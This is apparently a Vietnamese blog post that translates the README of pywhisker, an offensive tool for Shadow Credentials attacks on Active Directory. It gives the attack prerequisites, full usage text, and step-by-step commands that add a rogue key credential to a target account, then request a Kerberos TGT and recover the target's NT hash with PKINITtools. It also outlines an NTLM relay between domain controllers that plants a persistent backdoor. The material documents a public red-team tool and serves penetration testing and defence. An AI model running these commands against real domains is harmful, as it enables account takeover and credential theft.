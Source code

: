 ```yaml
---
title: Công cụ pywhisker
date: 1/8/2021
layout: single
header:
  teaser: https://github.com/ShutdownRepo/pywhisker/blob/main/.assets/add_pem.png?raw=true
--- 
```


## Giới thiệu PyWhisker 
Tác giả: ShutdownRepo
Khai thác [github/ShutdownRepo/pywhiske](https://github.com/ShutdownRepo/pywhisker)

PyWhisker là một Python tương đương với [Whisker](https://github.com/eladshamir/Whisker) gốc do [Elad Shamir](https://twitter.com/elad_shamir) tạo ra và được viết bằng C#. Công cụ này cho phép người dùng thao tác thuộc tính `msDS-KeyCredentialLink` của người dùng / máy tính mục tiêu để có toàn quyền kiểm soát đối tượng đó. Nó dựa trên [Impacket](https://github.com/SecureAuthCorp/impacket) và trên Python tương đương với DSInternals của [Michael Grafnetter](https://twitter.com/MGrafnetter) được gọi là [PyDSInternals](https://github.com/p0dalirius/pydsinternals). Công cụ này, cùng với [PKINITtools](https://github.com/dirkjanm/PKINITtools) của [Dirk-jan](https://twitter.com/_dirkjan) cho phép khai thác hoàn toàn nguyên thủy chỉ trên các hệ thống dựa trên UNIX.

Điều kiện tiên quyết cho cuộc tấn công này như sau

1. Mức chức năng miền mục tiêu phải là Windows Server 2016 trở lên.
2. Miền đích phải có ít nhất một Bộ điều khiển miền chạy Windows Server 2016 trở lên.
3. Bộ điều khiển miền để sử dụng trong cuộc tấn công phải có chứng chỉ và khóa riêng (điều này có nghĩa là tổ chức phải có AD CS hoặc PKI, CA hoặc thứ gì đó tương tự).
4. Kẻ tấn công phải có quyền kiểm soát tài khoản có thể ghi thuộc tính msDs-KeyCredentialLink của tài khoản máy tính hoặc người dùng mục tiêu

Tại sao một số yêu cầu trước?

+ Yêu cầu trước 1 và 2 vì các tính năng PKINIT đã được giới thiệu với Windows Server 2016
+ Yêu cầu trước 3 vì DC cần chứng chỉ và khóa của riêng nó để trao đổi khóa phiên trong giao dịch `AS_REQ <-> AS_REP`.

A `KRB-ERROR (16) : KDC_ERR_PADATA_TYPE_NOSUPP` sẽ được nâng lên nếu yêu cầu trước 3 không được đáp ứng.

Thông tin thêm về Shadow Credentials này
+ [Shadow Credentials: Abusing Key Trust Account Mapping for Takeover](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
+ [The Hacker Recipes - ACEs abuse](https://www.thehacker.recipes/active-directory-domain-services/movement/access-control-entries)
+ [The Hacker Recipes - Shadow Credentials](https://www.thehacker.recipes/active-directory-domain-services/movement/access-control-entries/shadow-credentials)

## Sử dụng
pyWhisker hỗ trợ các xác thực sau

+ (NTLM) Cleartext password
+ (NTLM) [Pass-the-hash](https://www.thehacker.recipes/active-directory-domain-services/movement/lm-and-ntlm/pass-the-hash)
+ (Kerberos) Cleartext password
+ (Kerberos) [Pass-the-key](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/pass-the-key) / [Overpass-the-hash](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/overpass-the-hash)
+ (Kerberos) [Pass-the-cache](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/pass-the-cache) (type of [Pass-the-ticket](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/pass-the-ticket))

Trong số những thứ khác, pyWhisker hỗ trợ nhiều cấp độ chi tiết, chỉ cần thêm `-v`,`-vv`

[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org/)

```powershell
usage: pywhisker.py [-h] -t TARGET_SAMNAME [-a [{list,add,remove,clear,info}]] [--use-ldaps] [-v] [-q] [--no-pass] [--dc-ip ip address] [-d DOMAIN] [-u USER]
                    (-p PASSWORD | -H [LMHASH:]NTHASH | --aes-key hex key | -k) [-cp CERT_PASSWORD] [-o OUTPUT_PATH] [-e {PEM, PFX}] [-D DEVICE_ID]

Python (re)setter for property msDS-KeyCredentialLink for Shadow Credentials attacks.

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET_SAMNAME, --target TARGET_SAMNAME
                        Target account
  -a [{list,add,remove,clear,info}], --action [{list,add,remove,clear,info}]
                        Action to operate on msDS-KeyCredentialLink
  --use-ldaps           Use LDAPS instead of LDAP
  -v, --verbose         verbosity level (-v for verbose, -vv for debug)
  -q, --quiet           show no information at all

authentication:
  --no-pass             don't ask for password (useful for -k)

authentication & connection:
  --dc-ip ip address    IP Address of the domain controller or KDC (Key Distribution Center) for Kerberos. If omitted it will use the domain part (FQDN) specified in the identity parameter
  -d DOMAIN, --domain DOMAIN
                        (FQDN) domain to authenticate to
  -u USER, --user USER  user to authenticate with
  -p PASSWORD, --password PASSWORD
                        password to authenticate with
  -H [LMHASH:]NTHASH, --hashes [LMHASH:]NTHASH
                        NT/LM hashes, format is LMhash:NThash
  --aes-key hex key     AES key to use for Kerberos Authentication (128 or 256 bits)
  -k, --kerberos        Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the
                        command line

arguments when setting -action to add:
  -cp CERT_PASSWORD, --cert-password CERT_PASSWORD
                        password for the stored self-signed certificate (will be random if not set)
  -o OUTPUT_PATH, --output-path OUTPUT_PATH
                        filename to store the generated self-signed PEM or PFX certificate and key
  -e {PEM, PFX}, --export {PEM, PFX}
                        choose to export cert+private key in PEM or PFX (i.e. #PKCS12) (default: PFX))

arguments when setting -action to remove:
  -D DEVICE_ID, --device-id DEVICE_ID
                        device ID of the KeyCredentialLink to remove when setting -action to remove

```
Dưới đây là các ví dụ và ảnh chụp màn hình về những gì PyWhisker có thể làm

## Liệt kê và nhận thông tin
PyWhisker có khả năng liệt kê các KeyCredentials hiện có. Ngoài ra, nó có thể mở toàn bộ cấu trúc để hiển thị mọi phần thông tin mà đối tượng chứa (bao gồm cả các tham số khóa công khai RSA)

```powershell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "list"
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "info" --device-id 6419739b-ff90-f5c7-0737-1331daeb7db6
```
![1](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/list_info.png)

## Clear and remove
PyWhisker có khả năng xóa các giá trị cụ thể hoặc xóa toàn bộ thuộc tính.
```powershell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "remove" --device-id a8ce856e-9b58-61f9-8fd3-b079689eb46e
```
![2](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/remove.png)

```powershell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "clear"
```
![3](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/clear.png)

## Thêm giá trị mới
PyWhisker có khả năng tạo khóa RSA, chứng chỉ X509, cấu trúc KeyCredential và ghi thông tin cần thiết dưới dạng giá trị mới của thuộc tính `msDs-KeyCredentialLink`. Chứng chỉ có thể được xuất ở định dạng PFX (# PKCS12, khóa riêng của chứng chỉ được bảo vệ bằng mật khẩu) hoặc ở định dạng PEM (chứng chỉ PEM, khóa riêng PEM, không cần mật khẩu).

## Ví dụ với định dạng PFX
```powershell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --output-path test1
```
![4](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/add_pfx.png)

Khi các giá trị được tạo và thêm bởi pyWhisker, TGT có thể được yêu cầu với [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py). Băm NT sau đó có thể được khôi phục bằng [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py)

```powershell
python3 PKINITtools/gettgtpkinit.py -cert-pfx test1.pfx -pfx-pass xl6RyLBLqdhBlCTHJF3R domain.local/user2 user2.ccache
python3 PKINITtools/getnthash.py -key f4d6738897808edd3868fa8c60f147366c41016df623de048d600d4e2f156aa9 domain.local/user2
```
![5](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/add_pfx_gettgtnthash.png)

## Ví dụ với định dạng PEM
```powershell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --output-path test2 --export PEM
```

![6](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/add_pem.png)

Khi các giá trị được tạo và thêm bởi pyWhisker, TGT có thể được yêu cầu với `gettgtpkinit.py1`. Băm NT sau đó có thể được khôi phục bằng `getnthash.py`.

```powershell
python3 PKINITtools/gettgtpkinit.py -cert-pem test2_cert.pem -key-pem test2_priv.pem domain.local/user2 user2.ccache
python3 PKINITtools/getnthash.py -key 894fde81fb7cf87963e4bda9e9e288536a0508a1553f15fdf24731731cecad16 domain.local/user2
```

![7](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/add_pem_gettgtnthash.png)

## Xác thực chuyển tiếp
[Yêu cầu](https://github.com/SecureAuthCorp/impacket/pull/1132) hiện đang chờ phê duyệt để đưa tính năng "thêm" của pywhisker vào ntlmrelayx

![8](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/relay.png)

## Kiến thức hữu ích
Đối tượng người dùng không thể chỉnh sửa thuộc tính `msDS-KeyCredentialLink` của riêng họ. Các đối tượng máy tính có thể. Điều này có nghĩa là tình huống sau có thể hoạt động: kích hoạt xác thực NTLM từ DC01, chuyển tiếp nó đến DC02, khiến pywhisker chỉnh sửa thuộc tính của DC01 để tạo cửa sau xác thực trước Kerberos PKINIT trên đó

![9](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/user_cant_self_edit.png)

Các đối tượng máy tính có thể chỉnh sửa thuộc tính `msDS-KeyCredentialLink` của riêng chúng nhưng chỉ có thể thêm KeyCredential nếu chưa có

![10](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/computers_can_self_edit.png)

Nếu bạn gặp lỗi, hãy đảm bảo không có sự chênh lệch về thời gian giữa máy chủ lưu trữ kẻ tấn công của bạn và Trung tâm phân phối khóa (thường là Bộ điều khiển miền). Để tránh lỗi đó, các chứng chỉ được tạo bởi công cụ pyWhisker có giá trị 40 năm trước ngày hiện tại và 40 năm sau.

## Tín dụng và tài liệu tham khảo
+ Tín dụng cho [Dirk-jan](https://twitter.com/_dirkjan) vì công việc của anh ấy trên [PKINITtools](https://github.com/dirkjanm/PKINITtools/). Ban đầu, chúng tôi đã lên kế hoạch tái cấu trúc các tập lệnh Impacket (đặc biệt là [gettgt.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py)) để triển khai xác thực trước PKINIT không đối xứng cho Kerberos. Anh ấy đã cứu chúng tôi rất nhiều đau đầu bằng cách viết nó trước chúng tôi!
+ Tín dụng cho toàn bộ nhóm đằng sau [Impacket](https://github.com/SecureAuthCorp/impacket/) và những người đóng góp của nó.
+ Tín dụng cho [Elad Shamir](https://twitter.com/elad_shamir), người đã tạo ra công cụ C # ban đầu ([Whisker](https://github.com/eladshamir/Whisker)) và cho [Michael Grafnetter's](https://twitter.com/MGrafnetter), người đã tạo ra [DSInternals](https://github.com/MichaelGrafnetter/DSInternals), một thư viện thực hiện hầu hết các công việc nặng nhọc của Whisker. Anh ấy cũng là người đã thực hiện bản demo đầu tiên của Mũ đen trình bày về đòn tấn công 

